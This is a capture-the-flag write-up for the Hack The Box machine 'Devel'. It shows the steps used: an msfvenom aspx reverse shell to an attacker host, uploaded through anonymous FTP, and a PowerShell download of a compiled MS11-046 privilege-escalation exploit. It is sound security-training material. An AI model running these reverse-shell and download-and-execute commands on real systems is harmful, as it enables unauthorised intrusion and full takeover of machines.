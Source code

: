 ```yaml
---
title: "Devel"
date: 2023-07-03T17:35:59+02:00
tags: ["ftp","windows","web","privesc"]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: "This room is a windows room with a http service which runs iis7 web server which content is able at a misconfigured ftp service."
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: true
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: false
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Devel
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Devel

![Untitled](/HTB/devel-icon.png)

## Tools Used

- Nmap
- FTP
- Msfvenom
- Searchsploit

## Port Scanning

```bash
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

The scan results shows two open ports, the port 80 has an iis7 web server and the port 21 a ftp service with the content of the website, one folder named aspnet_client gives us a clue of what framework is using the website.

## Enumeration

We can try a reverse shell since it allows us to log in the ftp server anonymously.

First we are going to list the formats we can use with:

```bash
msfvenom --list formats
```

A format specially caught my attention and it’s the aspx format which is used by the [asp.net](http://asp.net) 

We can build the reverse shell with:

```bash
msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.20 LPORT=4444 -o reverse-shell.aspx
```

## Exploiting

Let’s exploit the machine

First we are going to connect with the ftp client anonymously with:

```bash
ftp 10.10.10.5 21
```

Once there, let’s send the reverse shell with mput command:

```bash
mput ~/Documents/exploits/reverse-shell.aspx
```

Only left a listener

```bash
nc -lv 4444
```

Now let’s run the file in the browser http://10.10.10.5/reverse-shell.aspx.

## Gaining an Initial Foothold

We are in now. Let’s see if we are root users or not.

![Untitled](/HTB/devel-1.png)

![Untitled](/HTB/devel-2.png)

If we try to enter in the users folder seems that we don’t have permissions.

![Untitled](/HTB/devel-3.png)

## Escalating Privilege

We can list the system information to see if we can escalate privileges.

![Untitled](/HTB/devel-4.png)

Our version is the Windows 7 build 7600 x86, it’s fairly old and no hotfix(s) are applied.

In searchsploit seems doesnt have any result.

![Untitled](/HTB/devel-5.png)

If we google it we can see a [exploit](https://www.exploit-db.com/exploits/40564) that fits well with what we want to do.

![Untitled](/HTB/devel-6.png)

![Untitled](/HTB/devel-7.png)

The exploit CVE-**[2011-1249](https://nvd.nist.gov/vuln/detail/CVE-2011-1249)** help us to escalate privileges.

Let’s download the exploit with searchsploit 

```bash
searchsploit -m "40564"
```

If we take a look to the documentation of the exploit we can see that the exploit need to be compiled with `mingw32` first.

```bash
i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
```

Now let’s create a http server with python to send this .exe.

```bash
python -m http.server 80
```

The remote machine doesn’t seems to have netcat but has powershell we can download the file with:

```bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.20:80/MS11-046.exe', 'c:\Users\Public\Downloads\40564.exe')"
```

Once we have the exploit only left to run it, we can find it in c:\Users\Public\Downloads

![Untitled](/HTB/devel-9.png)

![Untitled](/HTB/devel-10.png)

We have gained root access.

## Flag(s)

Let’s navigate to the user and root Desktops where we can find the flags.

**User Flag**

![Untitled](/HTB/devel-11.png)

**Root Flag**

![Untitled](/HTB/devel-12.png)

## Lessons Learned

- What insights did you gain from the room?
    
    We learned to put a reverse shell via the ftp service as well as escalate privilege with a exploit that take advantage of the afd.sys file.
    
- Were there any novel tools or techniques employed?
    
    We don’t employed any new tools but he know now a new format of reverse shell (aspx) that is employed by Microsoft [asp.net](http://asp.net).

**Thank you for reading, and happy hacking! 😄**